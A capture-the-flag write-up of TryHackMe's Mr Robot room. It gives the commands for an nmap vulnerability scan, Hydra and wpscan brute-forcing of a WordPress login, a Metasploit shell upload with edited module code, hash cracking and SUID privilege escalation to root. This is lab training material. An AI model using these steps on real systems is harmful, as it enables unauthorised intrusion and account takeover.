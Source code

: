 # Mr Robot CTF

📡 **[https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)**

## Part 1 | One percent of the one percent

First of all, let's obey the one percent of the one percent and then as always scan the ip with nmap.

```bash
sudo nmap -sS -sV -O --script vuln HOST-IP -oN ./output_vuln.txt
```

- -sS : This is TCP SYN scan and it is looking that if the port ready for connection.
- -sV : Service and version information.
- -O : Operating System Detection.
- —script vuln : Looking for vulnerabilities on host by nmap script.
- -oN : Scan output to a file.

[Nmap Scan Output](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Nmap%20Scan%20Output%2038bf357171f348b986c5bca710bd0891.md)

We have a webserver on the host and there is an ssh port closed.

Let's check the website.

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled.png)

I am checked robots.txt file of the site.

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%201.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%201.png)

There are 2 files and one of them is key-1-of-3.txt

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%202.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%202.png)

We've found our first key.

I am looking at other .dic file and there is huge wordlist.

As I can see in my nmap scan, there was login page.

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%203.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%203.png)

I will try to login with elliot as username and password as this list.

I was trying this with burpsuite but it was so slow. So I will use hydra.

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%204.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%204.png)

It is giving a message about username password. So elliot username is probably true but what is the password? 

I am researching about sending http-post with hydra. Found this.

[https://github.com/gnebbia/hydra_notes](https://github.com/gnebbia/hydra_notes)

```bash
hydra -l elliot -P /home/kali/Desktop/Labs/TryHackMe/Mr_Robot_CTF/fsocity.dic 10.10.95.108 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^:F=The password you entered for the username"
```

This gives me the password. What am I doing here exactly is trying password with username elliot, I am using http-post method because this is a website login panel. My post request body contains username password. My failure string is written because I tested that in the screenshot above. It takes so long I will prepare coffee myself. Enjoy waiting.

When it finds the password I am logging in wordpress admin panel. 

We can use wpscan tool for scanning wordpress and gethering information about it.

```bash
wpscan --url http://10.10.25.207 -t 50 -U elliot -P ./fsocity.dic
```

- -U : Username
- -P : Password

There it is!

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%205.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%205.png)

Now we need to get acces to operating system. I am researching about accessing reverse shell over wordpress. I found this [https://www.hackingarticles.in/wordpress-reverse-shell/](https://www.hackingarticles.in/wordpress-reverse-shell/)

There are two type of methot that we can use. One of them is changing a php page to php reverse shell code. Other method is using metasploit framework.

Let's try metasploit.

```bash
search wordpress admin
```

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%206.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%206.png)

I will use that number 2, I am going to upload shell and I am going to access the server over that.

```bash
use 2
info
```

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%207.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%207.png)

It is the information page for the module. There are informations for what parameter needs to set. 

- It needs Password to authenticate with.
- It needs Target Host IP
- It needs Target Host Port because http service port could be different
- It needs Username for authenticating.
- It needs TargetURI which is "/". This is the path of worpress application.
- It needs Lhost for [localhost](http://localhost) to set reverse shell adress.

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%208.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%208.png)

There is an error. I know it is using worpress but module cannot see this.

I need to check advanced options

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%209.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%209.png)

Module is trying to check if the website using wordpress.

I am going to disable it.

```bash
set WPCHECH false
run
```

We have another error. There is easier way but lots of people showed that on their writeups.

I will try the hard way.

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2010.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2010.png)

Actually this plugin is installed when I checked the plugin page but module is not detecting it.

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2011.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2011.png)

Ok if there is no error and it is installing, let's try to pass checking part of the module code.

I will edit the module code.

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2012.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2012.png)

I am going to edit with vscode editor. 

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2013.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2013.png)

There is a code that file_with, it is checking if plugin is uploaded or not. I commented that row, save this code like this and reload the module.

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2014.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2014.png)

and done!

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2015.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2015.png)

We are in! 

I am going to /home directory and going into the user files. There is a key file and password file.

```bash
cd /home/robot
ls -al
```

as we can see we can only read password file. We need to crack it because there is robot username and md5 hashed password.

Use [https://crackstation.net/](https://crackstation.net/)

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2016.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2016.png)

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2017.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2017.png)

we need to change user to robot. Write "shell" command to change meterpreter to normal shell

```bash
shell
python -c 'import pty; pty.spawn("/bin/bash")'
cat key-2-of-3.txt
```

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2018.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2018.png)

Now I am "robot" and I know the second key.

I need to escalate my privileges and be root.

```bash
find / -perm -u=s -type f 2>/dev/null
```

This code gives you suid bit list. Check the [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid) site with this listed programs.

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2019.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2019.png)

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2020.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2020.png)

![Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2021.png](Mr%20Robot%20CTF%200fa81336be4741df90a38eb1336fb19b/Untitled%2021.png)

I use the interactive mod commands and I am root now. Check the root folder and take third key.

```bash
cd /root
cat key-3-of-3.txt
```

Done!
